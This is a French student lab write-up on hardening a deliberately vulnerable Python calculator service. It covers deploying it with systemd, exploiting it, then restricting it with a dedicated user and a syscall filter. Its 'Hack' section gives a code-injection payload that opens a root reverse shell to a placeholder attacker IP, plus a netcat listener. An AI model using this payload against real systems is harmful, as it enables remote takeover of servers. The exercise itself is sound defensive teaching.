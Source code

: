 # Part IV : My shitty app

## 1. Test

🌞 **Téléchargez l'app Python dans votre VM**

```bash
sudo curl -sSL -o /opt/calc.py https://gitlab.com/it4lik/m1-hardening-2024/-/raw/main/tp/2/calc.py
```

🌞 **Lancer l'application dans votre VM**

```bash
python3 /opt/calc.py
```

- Ouvrir le port du firewall :

```bash
sudo firewall-cmd --add-port=13337/tcp --permanent
sudo firewall-cmd --reload
```

- Tester depuis une autre machine avec `nc` :

```bash
nc 192.168.1.195 13337

Hello3+3
6
```

## 2. Création de service

🌞 **Créer un service `calculatrice.service`**

```bash
sudo vim /etc/systemd/system/calculatrice.service
```

Contenu du service :

```ini
[Unit]
Description=Super calculatrice :D

[Service]
ExecStartPre=/usr/bin/firewall-cmd --add-port=13337/tcp
ExecStartPre=/usr/bin/firewall-cmd --add-port=13337/tcp --permanent
ExecStart=/usr/bin/python3 /opt/calc.py
ExecStopPost=/usr/bin/firewall-cmd --remove-port=13337/tcp
ExecStopPost=/usr/bin/firewall-cmd --remove-port=13337/tcp --permanent
Restart=always

[Install]
WantedBy=multi-user.target
```

🌞 **Démarrer et vérifier le service :**

```bash
sudo systemctl daemon-reload
sudo systemctl start calculatrice
sudo systemctl status calculatrice
```

Tester de nouveau avec `nc` :

```bash
nc 192.168.1.195 13337

Hello4+4
8
```

## 3. Hack

🌞 **Injection de commande :**

```bash
nc 192.168.1.195 13337

Hello__import__(\"os\").system(\"bash -i >& /dev/tcp/<IP_ATTACKER>/9999 0>&1\")
```

- Listener sur la machine attaquante :

```bash
nc -lvp 9999
```

Un reverse shell en root est obtenu.

## 4. Harden

### A. Utilisateurs

🌞 **Créer un utilisateur dédié :**

```bash
sudo useradd calculatrice --shell /usr/sbin/nologin --no-create-home
sudo chown calculatrice:calculatrice /opt/calc.py
sudo chmod 500 /opt/calc.py
sudo chattr +i /opt/calc.py
```

🌞 **Modifier le service pour l'exécuter sous cet utilisateur :**

```ini
[Service]
...
User=calculatrice
PermissionsStartOnly=true
...
```

Redémarrer le service :

```bash
sudo systemctl daemon-reload
sudo systemctl restart calculatrice
```

### B. Syscalls

🌞 **Tracer l'application en usage normal et en exploitation :**

- Usage normal : `calc_legit.scap`
- Exploitation : `calc_hacked.scap`

Comparer les syscalls pour identifier ceux nécessaires :

```bash
sudo sysdig -r calc_legit.scap | cut -d' ' -f7 | sort | uniq > legit_syscalls
sudo sysdig -r calc_hacked.scap | cut -d' ' -f7 | sort | uniq > hacked_syscalls
comm -13 legit_syscalls hacked_syscalls
```

🌞 **Limiter les syscalls autorisés :**

Modifier le service pour ajouter `SystemCallFilter=` :

```ini
[Service]
...
SystemCallFilter=<liste des syscalls légitimes identifiés>
...
```

🌞 **Vérification finale :**

Tester à nouveau l'injection ; le reverse shell échoue désormais grâce aux restrictions mises en place.
